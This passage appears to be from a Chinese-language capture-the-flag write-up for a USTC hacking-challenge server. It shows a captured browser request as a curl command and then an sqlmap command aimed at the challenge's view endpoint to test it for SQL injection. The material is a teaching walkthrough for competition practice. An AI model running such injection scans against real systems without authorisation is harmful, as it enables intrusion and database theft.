 ![](https://pic.imgdb.cn/item/672f262ad29ded1a8c52c81c.png)

哥们！！（原子吐息）上sqlmap，干他！

抓包！

```
curl 'https://chal01-q45kxsw2.hack-challenge.lug.ustc.edu.cn:8443/view?conversation_id=76c4d252-ddad-48cf-ae64-3b0dd5f973db' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'Accept-Language: zh,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7' \
  -H 'Cache-Control: no-cache' \
  -H 'Connection: keep-alive' \
  -H 'Cookie: _ga=GA1.1.1498233831.1719196175; _ga_Q8WSZQS8E1=GS1.1.1730476974.5.0.1730476982.52.0.1779972184; _ga_R7BPZT6779=GS1.1.1731134815.10.1.1731135175.60.0.794122736; session=YuShengJun' \
  -H 'DNT: 1' \
  -H 'Pragma: no-cache' \
  -H 'Referer: https://chal01-q45kxsw2.hack-challenge.lug.ustc.edu.cn:8443/list' \
  -H 'Sec-Fetch-Dest: document' \
  -H 'Sec-Fetch-Mode: navigate' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'Sec-Fetch-User: ?1' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36' \
  -H 'sec-ch-ua: "Chromium";v="130", "Google Chrome";v="130", "Not?A_Brand";v="99"' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'sec-ch-ua-platform: "Linux"'
```

上map！

```
sqlmap -u 'https://chal01-q45kxsw2.hack-challenge.lug.ustc.edu.cn:8443/view?conversation_id=76c4d252-ddad-48cf-ae64-3b0dd5f973db' \
  --headers="Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7" \
  --headers="Accept-Language: zh,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7" \
  --headers="Cache-Control: no-cache" \
  --headers="Connection: keep-alive" \
  --headers="DNT: 1" \
  --headers="Pragma: no-cache" \
  --headers="Referer: https://chal01-q45kxsw2.hack-challenge.lug.ustc.edu.cn:8443/list" \
  --headers="Sec-Fetch-Dest: document" \
  --headers="Sec-Fetch-Mode: navigate" \
  --headers="Sec-Fetch-Site: same-origin" \
  --headers="Sec-Fetch-User: ?1" \
  --headers="Upgrade-Insecure-Requests: 1" \
  --headers="User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36" \
  --headers="sec-ch-ua: \"Chromium\";v=\"130\", \"Google Chrome\";v=\"130\", \"Not?A_Brand\";v=\"99\"" \
  --headers="sec-ch-ua-mobile: ?0" \
  --headers="sec-ch-ua-platform: \"Linux\"" \
  --cookie="_ga=GA1.1.1498233831.1719196175; _ga_Q8WSZQS8E1=GS1.1.1730476974.5.0.1730476982.52.0.1779972184; _ga_R7BPZT6779=GS1.1.1731134815.10.1.1731135175.60.0.794122736; session=YuShengJun"
```
